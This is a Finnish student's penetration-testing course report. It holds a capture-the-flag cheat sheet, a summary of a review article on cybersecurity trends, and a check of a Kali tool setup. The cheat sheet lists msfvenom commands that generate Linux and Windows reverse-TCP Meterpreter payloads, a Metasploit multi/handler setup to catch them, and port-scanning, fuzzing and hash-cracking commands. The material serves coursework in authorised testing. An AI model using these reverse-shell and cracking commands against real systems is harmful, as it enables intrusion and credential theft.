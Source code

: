 # a) Cheatsheet. Kerää parhaat komennot lipunryöstöä varten. Lähteinä voit käyttää omia ja kurssikavereiden läksyraportteja, vanhoja cheatsheet:eja sekä vierailijoiden kalvoja. (Kerää nimenomaan ne komennot ja sisältö, ei pelkkää linkkilistaa, ei pelkkää kuvailua. Tässä alakohdassa komentoja ei tarvitse kokeilla koneella).

NMAP
| Syntax | Description |
| :--- | ---: |
| nmap -A -p- <'ip-address'> | Laaja porttiskannaus kaikille portille 1-65535 kohde IP koneelle. |
| nmap <'ip-address'> | Perusmuotoinen TCP SYN skannaus yleisimmille porteille 1-1000 kohde IP koneelle. |
| nmap --top-ports <'n'> <'ip-address'> | Perusmuotoinen skannaus yleisimmille 'n' määrälle porteille. Yleensä 1000. |  

FFUF
| Syntax | Description |
| :--- | ---: |
| ./ffuf -w common.txt -u http://kohdeURL/FUZZ | -w käyttää common.txt worlistia fuzzaamiseen, -u syötetään fuzzattava URL |
| ./ffuf -w common.txt -u http://kohdeURL/FUZZ -fc; -fl; -fmode; -fr; -fs; -ft; -fw | Filtterit : c > HTTP stat codes, l > lines, mode > parameters, r > regexp, s > size, t > time, w > wordcount |


METASPLOIT FRAMEWORK
| Syntax | Description |
| :--- | ---: |
| jobs -l ; -k | -l listaa käynnissä olevat tehtävät ja -k pysäyttävät ne. |
| sessions -l ; -i | -l listaa käynnissä olevat meterpreter sessiot ja -i ottaa siihen yhteyden |
| show -h  | Näyttävät vaihtoehdot mitä voidaan näyttää esim. payloads, exploits, plugins jne. |

METASPLOIT/MULTI/HANDLER
| Syntax | Description |
| :--- | ---: |
| use exploit/multi/handler | Payload handlerin käyttö |
| set PAYLOAD; LHOST; LPORT; ExitOnSession; run | Multi-handler parametrien asetukset |

MSFVENOM 
| Syntax | Description |
| :--- | ---: |
| msfvenom -p <'PAYLOAD'> -f <'Filetype'> LHOST= <'localhost-ip'> LPORT= <'listeningport'> > <'output-filename'> | msfvenom payloadin generointi |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf | Linux reverse-tcp payload generointi |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe | Windows reverse-tcp payload generointi |


JOHN THE RIPPER
| Syntax | Description |
| :--- | ---: |
| ./john/run/<'module-name'> > 'output-file.hash' | Ajaa run hakemistosta valitun moduulin joka ottaa hash tiedon ja ulostaa sen toiseen tiedostoon |
| ./john/run/john <'finlename.hash'> | Aloittaa hashin murtamista |

HASHCAT / HASHID
| Syntax | Description |
| :--- | ---: |
| hashid -m <'hash'> | Analysoi hashin ja sen mahdollista tyyppiä |
| hashcat -m <'mode-number'> <'hash'> <'wordlist.txt'> -o <'outputfile'> | -m kertoo hashmoden ja wordlistiin syötetään esim rockyou.txt ja -o ulostaa murretun hashin erilliseen tiedostoon. |

# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.

## Artikkelin valinta

Artikkeliksi valitsin Kaur J.:n ja Ramkumar K.R.:n kirjoittaman katsausartikkelin "The recent trends in cyber security: A review" joka on osana "Journal of King Saud University - Computer and Information Sciences" -Lehteä/sarjaa. Lehti on on saanut Julkaisufoorumin arvioinnin tasoa 1. Artikkeli on ollut julkisesti saatavilla 9.2.2021 ja sen virallinen lehtijulkaisuajankohta oli 9/2022.

Julkaisufoorumin arvio:
https://jfp.csc.fi/#!PublicationInformationView/id/84096

Artikkelia pääsee lukemaan tästä: 
https://www.sciencedirect.com/science/article/pii/S1319157821000203

Sen saa myös ilmaiseksi ladattuna PDF-muodossa.

## Artikkelin tiivistelmä


- Artikkelissa käsitellään nykyajan tietotuvan uusista menetelmistä ja teknologiasta, jolla pyritään tietoturvallisuuden viitekehyksiä. Se toimii ylipäätään teknisenä raporttina nykytutkijoille tietoturvan nykyisisestä tilasta.
-  Iso-Britannia on esittänyt kansallisen National Security Strategy vuosina 2016-2021 ja satsannut siihen 1.9 miljardia puntaa(£) kansallisen tietoturvansa parantamiseksi.
-  Vuonna 2018, Lähes 70 valtiota ovat jollakin tasolla dokumentoidusti kehittäneet heidän tietoturvastrategiansa.
- Artikkelissa käsiteltiin hieman kryptografian historiasta, jossa nykyajan salausmenetelmistä alkoi DES menetelmällä vuonna 1977. Tämä kuitenkin murrettiin vuonna 1999 alle 24 tunnissa brute-force hyökkäyksellä ja todettiin epäluotettavaksi lyhyen kirjainmääränsä vuoksi (56-bit).
DES menetelmälle kehitettiin EDE-mode (3DES) joka kolminkertaisti pituutensa (168-bit).
Vuonna 2001 NIST julisti valitsevansa uuden salausmenetelmän AES, jossa oli vaihtelevat pituudet (128, 192, 256 bittiä). AES ei ole tähän päivään asti pystytty murtamaan.
- Vuonna 1976, Diffie-Hellman menetelmä oli yksiä ensimmäisiä salausmenetelmiä, jossa hyödynnettiin jaetun avaimen salausmenetelmää. Tästä kehitettiin RSA menetelmä vuonna 1978 johon lisättiin julkisen avaimen menetelmää, joka myös yleisesti käytetään nykypäivänä.
- Nykypäivän RSA ja AES menetelmät halutaan parantaa implementoimalla Quantum cryptography menetelmiä. Quantum-salausmenetelmissä käytetään bittien sijaan Qbitteja, mitkä ovat mahdottomia kopioida, sekä mahdotonta tunnistaa minkälaisen suodattimen kautta sen purkamiseen käytetään. Quantum-tietokoneita ovat vielä kehitteellä, mutta voivat artikkelin mukaan olla käytössä jo vuonna 2025.
- Artikkelissa puhuttiin Side-Channel hyökkäyksistä (SCA). Näitä hyökkäyksiä salausmenetelmiä vastaan eivät suorannaisesti yritä murtaa salausta, vaan keskittyvät salauksen tekemiseen käytettäviin laitteisiin tai fyysisiin kanaviin. Tietoja voivat olla signaaleja, elektromagneettisia vuotoja, virrankulutustiedot, ajastustiedot ja äänitiedot.

# c) Valmiina lipunryöstöön. Asenna läppärillesi tarvittavat työkalut lipunryöstöön. Hyökkäyskone voi olla virtuaalikone. Se ei saa sisältää luottamuksellisia tietoja, koska sitä voi olla tarpeen tarkistaa ja tutkia harjoituksen yhteydessä. Koneella saatetaan ajaa testibinäärejä ja kontteja; sekä tarkastamiseen liittyviä ohjelmia. Harjoituksessa saattaa olla Docker-kontteja, kokeile, että Docker toimii (Muistaakseni 'sudo apt-get -y install docker.io').

Käytän tässä lipunryöstötehtävässä kurssilla käyttämääni Kali virtuaalikonetta

Varmistin, että minulla ei ollut arkaluonteista dataa konella. Tarkistin, että minulla oli tarvittavat paketit ja työkalut asennettuna lipunryöstöä varten:

Metasploit framework:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/438ab12b-e33c-44c8-a7fd-8779dadfac72)

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/d5210beb-6392-46f9-9976-9816c71c3021)

nmap:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/2b968038-21c1-4579-a691-31608a86ee40)


ffuf:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/04aaa60b-109f-4e8a-8461-ce44dad5c932)

Jumbo John:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/bd7bfb4c-3fa8-44b3-8feb-2b089a0353af)

Hashcat ja HashID:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/839095a8-442d-459c-98b0-1c2fa9bc963c)

docker:

![image](https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/assets/128583292/ded2ac13-c8cf-4b1d-9f90-f840c61283cd)

# Lähteet

Indren D., h3 Ffuf faster, https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/blob/main/h3%20Fuff%20faster.md

Indren D., h2: scanning cyberspace, https://github.com/danielz95/Tunkeutumistestaus-Penetration-Testing-2024/blob/main/h2%20Scanning%20Cyberspace.md

HackTricks, MSFVenom cheat sheet, https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom



Kaur J. et Ramkumar K.R., 2021, The recent trends in cyber security: A review,  https://www.sciencedirect.com/science/article/pii/S1319157821000203

Julkaisufoorumi, Journal of King Saud University - Computer and Information Sciences, https://jfp.csc.fi/#!PublicationInformationView/id/84096





